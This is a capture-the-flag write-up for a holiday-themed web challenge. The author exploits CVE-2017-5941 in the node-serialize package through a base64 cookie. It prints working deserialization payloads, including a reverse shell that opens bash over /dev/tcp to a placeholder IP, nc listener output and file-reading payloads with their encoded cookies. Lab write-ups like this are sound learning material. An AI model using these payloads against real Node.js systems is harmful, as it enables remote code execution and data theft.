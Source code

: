 
# Challenge

So we have identified all the villains through Santas Blog. Here are the 10 most wanted characters on the North Pole!

http://grinchserialkiller.norwayeast.azurecontainer.io:7331/

> **Hint:** There was 5941 applicants to this list... go figure.... sounds a bit UNcivilized...

# Writeup

Quick look I can only see a cookie which is delivered. Decoding it using base64 gives me the following.

```json
{
  "username": "santa",
  "country": "northpole",
  "city": "elfville"
}
```

The number 5941 must be a hint and a quick google shows me [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941) which is a RCE exploit. Basically it lets you run nodejs functions when using `node-serialise` package. 

So guessing he is using that package to "un"serialize (based on the hint, UNcivilized) the cookie we can simply try to exploit it.

[This](https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html) document shows how to exploit it. It seems to just use `_$$ND_FUN$$_function` in front of the function.

```json
{
	"username": "_$$ND_FUNC$$_function(){return 'test'}()",
	"country": "northpole",
	"city": "elfville"
}
```

Now my username will be test. As I understand you do not need to use any of the existing variables. It is run on the whole object. So I build my reverse shell script:

```json
{
	"username": "toffe",
	"country": "northpole",
	"city": "elfville",
	"rce": "_$$ND_FUNC$$_function () {require('child_process').spawnSync('/bin/bash', ['-c', 'bash -i >& /dev/tcp/IP.ADDR.HERE/1234 0>&1 &'])\n    }()"
}
```

And bingo, I'm in:

```bash
ubuntu@tjweb:~$ nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 20.100.244.149 6184
bash: cannot set terminal process group (27): Inappropriate ioctl for device
bash: no job control in this shell
node@SandboxHost-638070306114978530:/app$ cat /flag.txt
cat /flag.txt
${W0V_53RI@7_KI113R5_C@N_B3_D3@D7Y!}node@SandboxHost-638070306114978530:/app$ 
```

There it is `${W0V_53RI@7_KI113R5_C@N_B3_D3@D7Y!}`

I did actually browse around to find that flag. So not so fast. But it was basically `cd..` and `ls -lah` and there I saw it.


# Different method

`require('fs').readdirSync('.').toString()`
```json
{
	"username": "_$$ND_FUNC$$_function(){return require('fs').readdirSync('.').toString()}()",
	"country": "northpole",
	"city": "elfville"
}

ewoJInVzZXJuYW1lIjogIl8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JldHVybiByZXF1aXJlKCdmcycpLnJlYWRkaXJTeW5jKCcuJykudG9TdHJpbmcoKX0oKSIsCgkiY291bnRyeSI6ICJub3J0aHBvbGUiLAoJImNpdHkiOiAiZWxmdmlsbGUiCn0=
```

`require('fs').readdirSync('..').toString()`
```json
{
	"username": "_$$ND_FUNC$$_function(){return require('fs').readdirSync('..').toString()}()",
	"country": "northpole",
	"city": "elfville"
}


ewoJInVzZXJuYW1lIjogIl8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JldHVybiByZXF1aXJlKCdmcycpLnJlYWRkaXJTeW5jKCcuLicpLnRvU3RyaW5nKCl9KCkiLAoJImNvdW50cnkiOiAibm9ydGhwb2xlIiwKCSJjaXR5IjogImVsZnZpbGxlIgp9
```

`require('fs').readFileSync('/flag.txt')`
```json
{
	"username": "_$$ND_FUNC$$_function(){return require('fs').readFileSync('/flag.txt')}()",
	"country": "northpole",
	"city": "elfville"
}

ewoJInVzZXJuYW1lIjogIl8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JldHVybiByZXF1aXJlKCdmcycpLnJlYWRGaWxlU3luYygnL2ZsYWcudHh0Jyl9KCkiLAoJImNvdW50cnkiOiAibm9ydGhwb2xlIiwKCSJjaXR5IjogImVsZnZpbGxlIgp9
```